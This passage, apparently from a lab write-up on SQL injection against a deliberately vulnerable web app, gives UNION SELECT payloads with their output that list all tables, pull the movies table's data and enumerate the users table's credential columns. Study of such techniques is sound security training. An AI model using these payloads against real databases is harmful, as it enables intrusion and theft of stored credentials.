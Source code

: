 ### 3. Retrieve All Table Names
**Payload:**
```
UNION SELECT 1,2,3,4,table_name,6 from information_schema.tables --
```
**Output (excerpt):**
```
2   3   blog    4   Link
2   3   heroes  4   Link
2   3   movies  4   Link
2   3   users   4   Link
```
**Explanation:**
The `information_schema.tables` stores metadata about all tables. This query lists all table names in the database.

### 4. Retrieve Column Names of the `movies` Table
**Payload:**
```
UNION SELECT 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='movies' --
```
**Output:**
```
id,title,release_year,genre,main_character,imdb
```
**Explanation:**
This query extracts all column names from the `movies` table using the `information_schema.columns` metadata table.

### 5. Retrieve All Movie Titles
**Payload:**
```
UNION SELECT 1,2,3,4,group_concat(title, release_year, imdb),6 from movies --
```
**Output:**
```
G.I. Joe: Retaliation2013tt1583421,Iron Man2008tt0371746,Man of Steel2013tt0770828,Terminator Salvation2009tt0438488,...
```
**Explanation:**
This query retrieves and concatenates all movie titles, release years, and IMDB references from the `movies` table.

### 6. Retrieve Column Names of the `users` Table
**Payload:**
```
UNION SELECT 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='users' --
```
**Output:**
```
id,login,password,email,secret,activation_code,activated,reset_code,admin
```
**Explanation:**
This retrieves all column names for the `users` table, which contains login credentials.
